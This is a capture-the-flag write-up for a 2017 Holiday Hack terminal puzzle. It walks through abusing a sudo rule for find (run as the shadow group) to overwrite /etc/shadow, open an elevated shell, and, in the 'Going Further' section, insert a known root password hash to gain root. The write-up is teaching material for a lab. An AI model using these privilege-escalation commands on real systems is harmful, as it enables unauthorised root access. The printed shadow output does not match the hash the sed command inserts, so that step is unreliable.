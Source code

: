 * Question
  :PROPERTIES:
  :CUSTOM_ID: we_are_question
  :END:

#+BEGIN_EXAMPLE
                -->*<--
                  /o\
                 /_\_\
                /_/_0_\
               /_o_\_\_\
              /_/_/_/_/o\
             /@\_\_\@\_\_\
            /_/_/O/_/_/_/_\
           /_\_\_\_\_\o\_\_\
          /_/0/_/_/_0_/_/@/_\
         /_\_\_\_\_\_\_\_\_\_\
        /_/o/_/_/@/_/_/o/_/0/_\
       jgs       [___]  


    My name is Shinny Upatree, and I've made a big mistake.
    I fear it's worse than the time I served everyone bad hake.
    I've deleted an important file, which suppressed my server access.
    I can offer you a gift, if you can fix my ill-fated redress.

    Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
    Hint: What commands can you run with sudo?
#+END_EXAMPLE

* How to find the terminal
  :PROPERTIES:
  :CUSTOM_ID: we_are_how-to-find-the-terminal
  :END:

From this game: https://2017.holidayhackchallenge.com/game/f09180b7-43e4-406c-83ac-924539e7b8f5

Direct link: https://docker2017.holidayhackchallenge.com/?challenge=a9d07a00-55bc-4391-a02b-71f3c4f1ec44&uid=USER_ID

#+HTML: <iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/kVKmTwQ7nNg?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>

#+CAPTION: The terminal is just behind the starting ramp on the main platform.
[[./images/terminal-location-we_are.png]]

* Background Information
  :PROPERTIES:
  :CUSTOM_ID: we_are_background-information
  :END:

We're logged in as the user =elf=. We happen to know that
=/etc/shadow= is where *NIX systems store the password hashes for
their users.

The system {{{abbr(Message of the Day, MOTD)}}} gives us a hint:

#+BEGIN_QUOTE
What commands can you run with sudo?
#+END_QUOTE

We also know that =sudo= is a program that allows us to run commands with the privileges of other users and/or groups.

* Goal
  :PROPERTIES:
  :CUSTOM_ID: we_are_goal
  :END:

We need to overwrite /etc/shadow with /etc/shadow.bak. Basically we
need to ~cp /etc/shadow.bak /etc/shadow~, except that we don't have
permissions to do that directly:

#+BEGIN_SRC
elf@784e43534178:~$ cp /etc/shadow.bak /etc/shadow
cp: cannot create regular file '/etc/shadow': Permission denied
#+END_SRC

* Hints
  :PROPERTIES:
  :CUSTOM_ID: we_are_approach
  :END:

Shinny Upatree on Twitter has a few hints:

#+HTML: <blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">I think I have some pseudo (sp?) permissions on this Unix server, but I don&#39;t know what that means. <a href="https://twitter.com/GreenesterElf?ref_src=twsrc%5Etfw">@GreenesterElf</a> said this was a &quot;learning opportunity&quot; and won&#39;t give me the answer :&#39;(</p>&mdash; Shinny Upatree (@ClimbALLdaTrees) <a href="https://twitter.com/ClimbALLdaTrees/status/938578359860174848?ref_src=twsrc%5Etfw">December 7, 2017</a></blockquote>

* Approach
  :PROPERTIES:
  :CUSTOM_ID: we_are_approach
  :END:

If we follow the hint, we should try to figure out what commands we can run with sudo. Let's run ~sudo -h~ to view the help documentation:

#+BEGIN_EXAMPLE
sudo - execute a command as another user
...
  -l, --list                  list user's privileges or check a specific command; use twice for longer format
...
#+END_EXAMPLE

To follow the hint, we should run sudo with the ~--list~ option, to see what our privileges are:

#+BEGIN_SRC
elf@784e43534178:~$ sudo --list
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
    (elf : shadow) NOPASSWD: /usr/bin/find
#+END_SRC

We can run the find command, but it also mentions something about shadow. Let's give it a shot:

#+BEGIN_SRC
elf@784e43534178:~$ sudo find
[sudo] password for elf: 
#+END_SRC

We don't know the password. The sudo output said we should be able to
run this without a password ("NOPASSWD"). Something's not quite
right. We can run sudo with ~-l -l~ as the help output said to get
some more verbose output:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -l -l
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
Sudoers entry:
    RunAsUsers: elf
    RunAsGroups: shadow
    Options: !authenticate
    Commands:
        /usr/bin/find
#+END_SRC

Ok. So sudo lets us run the find command as the user elf, and the group shadow. Viewing ~sudo -h~ one more time shows us that there's an option we want to set our group to =shadow=:
#+BEGIN_EXAMPLE
  -g, --group=group           run command as the specified group name or ID
#+END_EXAMPLE

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find 
.
./.bashrc
./.bash_logout
./.profile
#+END_SRC

This time, sudo let us run find without prompting us for a
password. So, we know that we can run commands as the elf user, and
the shadow group. Is this enough to overwrite =/etc/shadow=?

#+BEGIN_SRC
elf@784e43534178:~$ ls -l /etc/shadow
-rw-rw---- 1 root shadow 0 Dec 15 20:00 /etc/shadow
#+END_SRC

Yes. =/etc/shadow= is owned by the root user and the shadow group, and
the group has write permissions to it. At this point, the only thing
that's left is figuring out how to use =find= in order to copy
=/etc/shadow.bak= to =/etc/shadow=. =find= has an exec option:

#+BEGIN_EXAMPLE
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;
#+END_EXAMPLE

Let's give it a shot:
#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \;
#+END_SRC

Looks like that worked:

#+BEGIN_SRC
elf@784e43534178:~$ inspect_da_box 
                     ___
                    / __'.     .-"""-.
              .-""-| |  '.'.  / .---. \
             / .--. \ \___\ \/ /____| |
            / /    \ `-.-;-(`_)_____.-'._
           ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
           | |      /       \ /      `\ `. \       / .-. \
           \ \     |         Y    __...\  \ \     / /   \/
     /\     | |    | .--""--.| .-'      \  '.`---' /
     \ \   / /     |`        \'   _...--.;   '---'`
      \ '-' / jgs  /_..---.._ \ .'\\_     `.
       `--'`      .'    (_)  `'/   (_)     /
                  `._       _.'|         .'
                     ```````    '-...--'`
/etc/shadow has been successfully restored!
#+END_SRC

* Solution
  :PROPERTIES:
  :CUSTOM_ID: we_are_solution
  :END:

A one-liner is:

#+BEGIN_SRC
sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \; && inspect_da_box
#+END_SRC

* Alternatives
  :PROPERTIES:
  :CUSTOM_ID: we_are_alternatives
  :END:

Instead of using =find= to directly copy the file, we can just use it to start an elevated shell:

#+BEGIN_SRC
elf@784e43534178:~$ id
uid=1000(elf) gid=1000(elf) groups=1000(elf)
elf@784e43534178:~$ sudo -g shadow find -exec bash \;
...
elf@784e43534178:~$ id
uid=1000(elf) gid=42(shadow) groups=42(shadow),1000(elf)
#+END_SRC

This shows how we can use =sudo= + =find= as a general privilege escalation mechanism.

* Common Pitfalls
  :PROPERTIES:
  :CUSTOM_ID: we_are_common-pitfalls
  :END:

=find='s exec syntax is a little weird, and a common mistake is forgetting to escape the semicolon at the end:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow ;
find: missing argument to `-exec'
#+END_SRC

Another issue is just the fact that sudo is often set up for user
permissions, and not group permissions, so the =-g= flag is less well
known.

* Going Further - Privilege Escalation

This is neat, but let's elevate privileges to root on this
terminal. Our approach will be to put in a modified shadow file
instead, which will have a password we know for the root user.

First, let's generate the password hash in the right format:

#+BEGIN_SRC
elf@784e43534178:~$ echo "password" | openssl passwd -1 -stdin
$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/
#+END_SRC

Now that we have a hash, we'll use sed to modify the =/etc/shadow.bak=
file to have that for root's password. Remember to be careful in
escaping special characters in the sed command line.

#+BEGIN_SRC
elf@784e43534178:~$ sed -e 's/root:\*/root:$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/' /etc/shadow.bak | tee better.shadow
root:$1$WPvxfOOK$JqDBD/DPQlpkUBOC3qTp51:17484:0:99999:7:::
daemon:*:17484:0:99999:7:::
bin:*:17484:0:99999:7:::
sys:*:17484:0:99999:7:::
sync:*:17484:0:99999:7:::
games:*:17484:0:99999:7:::
...
#+END_SRC

Now, we re-run our find command, and find that we can escalate to root with a password of ~password~:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp better.shadow /etc/shadow \;
elf@784e43534178:~$ su
Password: 
root@784e43534178:/home/elf# id  
uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
